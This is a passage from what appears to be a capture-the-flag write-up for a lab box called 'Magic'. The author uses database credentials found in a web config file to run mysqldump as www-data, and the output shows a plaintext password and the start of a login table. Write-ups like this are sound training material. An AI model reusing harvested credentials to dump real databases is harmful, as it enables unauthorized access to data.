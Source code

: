 ```text
/etc/init.d/mysql
/etc/mysql
/etc/mysql/mysql.conf.d
/var/lib/app-info/icons/ubuntu-bionic-universe/64x64/mysql-workbench_mysql-workbench.png
/var/lib/dpkg/info/mysql-server-5.7.prerm
/var/lib/dpkg/info/mysql-server-5.7.postinst
/var/lib/dpkg/info/mysql-common.prerm
/var/lib/dpkg/info/mysql-common.postinst
/var/lib/dpkg/info/mysql-server-5.7.config
/var/lib/dpkg/info/mysql-server-5.7.preinst
/var/lib/dpkg/info/mysql-common.postrm
/var/lib/dpkg/info/mysql-common.preinst
/var/lib/dpkg/info/mysql-server-5.7.postrm
/var/lib/mysql-upgrade
```

There were lots of programs installed related to mysql in `/usr/bin`. The one called `mysqldump` sounded particularly interesting. A quick search led me to the official documentation at [https://dev.mysql.com/doc/refman/8.0/en/mysqldump.html](https://dev.mysql.com/doc/refman/8.0/en/mysqldump.html)

> The mysqldump client utility performs logical backups, producing a set of SQL statements that can be executed to reproduce the original database object definitions and table data. It dumps one or more MySQL databases for backup or transfer to another SQL server. The mysqldump command can also generate output in CSV, other delimited text, or XML format.

Sounds like a nice and easy way to quickly dump the database! The file `db.php5` in the web directory told me the database name was `Magic` and also gave me the username and password.

```text
www-data@ubuntu:/usr/bin$ mysqldump --databases Magic -u theseus -p            
Enter password: 
-- MySQL dump 10.13  Distrib 5.7.29, for Linux (x86_64)u theseus -p imamkingthese
--
-- Host: localhost    Database: Magic
-- ------------------------------------------------------
-- Server version       5.7.29-0ubuntu0.18.04.1

/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8 */;
/*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
/*!40103 SET TIME_ZONE='+00:00' */;
/*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;

--
-- Current Database: `Magic`
--

CREATE DATABASE /*!32312 IF NOT EXISTS*/ `Magic` /*!40100 DEFAULT CHARACTER SET latin1 */;

USE `Magic`;

--
-- Table structure for table `login`
--

DROP TABLE IF EXISTS `login`;
/*!40101 SET @saved_cs_client     = @@character_set_client */;
/*!40101 SET character_set_client = utf8 */;
CREATE TABLE `login` (
  `id` int(6) NOT NULL AUTO_INCREMENT,
```